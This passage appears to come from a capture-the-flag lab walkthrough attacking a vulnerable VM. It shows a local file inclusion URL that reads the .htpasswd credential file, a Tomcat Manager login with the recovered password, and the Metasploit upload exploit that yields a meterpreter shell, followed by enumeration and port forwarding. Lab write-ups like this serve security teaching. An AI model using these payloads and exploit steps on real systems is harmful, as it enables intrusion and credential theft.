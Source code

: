 ```
http://192.168.1.101/file.php?file=/etc/apache2/.htpasswd
```

![](https://i2.wp.com/1.bp.blogspot.com/-s_DPWzY2YQw/XZl7gcyMk3I/AAAAAAAAgzQ/5UEwcTqh6NQXpSFPQwyI8GOtHK4TAB14ACLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

After combining Hint1, Hint2 and Hint3 you will have a password:

**TheOlympicsmaybeevenastarBucks**

As you know port 8080 is available for Apache tomcat manager and maybe can login into tomcat server with the help of this password.

![](https://i2.wp.com/1.bp.blogspot.com/-lAPLnc1vOD8/XZl7ghD_geI/AAAAAAAAgzU/Kym-qdwMejQzkek1J7yNJ2wWN7EfwiJTACLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

### **Exploiting Tomcat Manager**

For login into tomcat manager we use the following credential:

**Username:** Amour (found above from inside source code)

**Password:** TheOlympicsmaybeevenastarBucks

![](https://i0.wp.com/1.bp.blogspot.com/-qJmSVEJQVKI/XZl7g2OLGTI/AAAAAAAAgzY/udO1Pq9WIwE19XOshO6vZk79ZsHZHatrgCLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

I hope you all are aware of Tomcat manager exploit available in Metasploit framework, if not then read the complete article from [here](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/).

So, without wasting time we are straight away logged into Tomcat Server using Metasploit Tomcat Manager using the above credentials for Tomcat Server Login.

```
use exploit/multi/http/tomcat\_mgr\_upload  
set rhosts 192.168.1.101  
set rport 8080  
set httpusername armour  
set httppassword TheOlympicsmaybeevenastarBucks  
exploit
```

Booom!! Our favourite meterpreter session is all here, let’s go for Post enumeration.

```
netstat -antp
```

If you check your local network static for TCP and UDP connections, you’ll see that there’s something running 8081, and even nmap doesn’t display anything for this. With the aid of the meterpreter, we have forwarded service port 8081 to our local host:8081.

```
portfwd add -l 8081 -p 8081 -r 127.0.0.1
```

![](https://i1.wp.com/1.bp.blogspot.com/-X_2-ld75QPY/XZl7hFc-HaI/AAAAAAAAgzc/SR1XaIaD1skWaOv1NJJeVWn13LQXkxg0wCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

Once you have to forward the service over your local machine then you can explore it the web browser as we have done here.
